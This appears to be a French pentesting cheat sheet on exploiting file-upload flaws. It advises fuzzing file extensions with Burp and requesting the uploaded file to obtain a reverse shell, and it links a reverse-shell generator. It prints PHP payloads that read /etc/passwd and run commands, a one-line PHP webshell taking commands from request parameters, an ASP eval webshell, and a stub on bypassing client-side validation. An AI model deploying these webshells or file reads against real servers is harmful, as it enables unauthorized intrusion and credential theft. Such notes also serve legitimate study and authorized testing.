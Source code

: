 
>[!TIP]
>Check validation en backend ET FRONT END
>FUZZ les extensions avec BURP.
>Identifier le dossier d'upload et GET request pour obtenir reverseshell


## **reverse shells** -> https://www.revshells.com/

# **PHP**

## Lecture de fichier 

```php
<?php file_get_contents('/etc/passwd'); ?>
```

## Execution de commande

```php
<?php system('hostname'); ?>
```

## Webshell basique

```php
<?php system($_REQUEST['cmd']); ?>
```

# **ASP**

## Webshell basique

```asp
<% eval request('cmd') %>
```



# **BYPASSES**

## Client-Side Validation

|                  |                       |
| ---------------- | --------------------- |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
Si fonction appelée, la vérifier grâce à la console

## Filters
